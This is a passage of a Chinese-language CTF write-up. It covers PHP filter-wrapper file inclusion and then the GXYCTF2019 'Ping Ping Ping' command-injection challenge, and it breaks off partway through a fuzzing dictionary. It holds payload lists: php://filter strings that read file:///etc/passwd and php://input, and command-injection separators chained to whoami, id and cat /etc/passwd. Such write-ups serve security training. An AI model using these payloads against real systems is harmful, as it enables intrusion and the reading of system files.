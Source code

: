 ```
php://filter/convert.base64-decode/resource=php://memory
php://filter/convert.base64-decode/resource=php://temp
php://filter/convert.base64-decode/resource=php://output
php://filter/convert.base64-decode/resource=php://fd
php://filter/convert.base64-decode/resource=php://data
php://filter/read=convert.base64-decode/resource=file:///etc/passwd
php://filter/read=convert.base64-decode/resource=php://input
php://filter/read=convert.base64-decode/resource=php://stdin
php://filter/read=convert.base64-decode/resource=php://memory
php://filter/read=convert.base64-decode/resource=php://temp
php://filter/read=convert.base64-decode/resource=php://output
php://filter/read=convert.base64-decode/resource=php://fd
php://filter/read=convert.base64-decode
```

获得 flag Base64 编码，对其进行 Base64 解码即可

<img src="CTF.assets/image-20230511231715030.png" alt="image-20230511231715030" style="zoom:50%;" />

## [GXYCTF2019]Ping Ping Ping - 系统命令执行过滤绕过

首先使用 Burp Suite做模糊测试测试出能使用的命令拼接符，字典如下：

```
; whoami
&& whoami
|| whoami
& whoami
| whoami
; echo test
&& echo test
|| echo test
& echo test
| echo test
; cat /etc/passwd
&& cat /etc/passwd
|| cat /etc/passwd
& cat /etc/passwd
| cat /etc/passwd
; id
&& id
|| id
& id
| id
; pwd
&& pwd
|| pwd
& pwd
| pwd
; ls -la
&& ls -la
```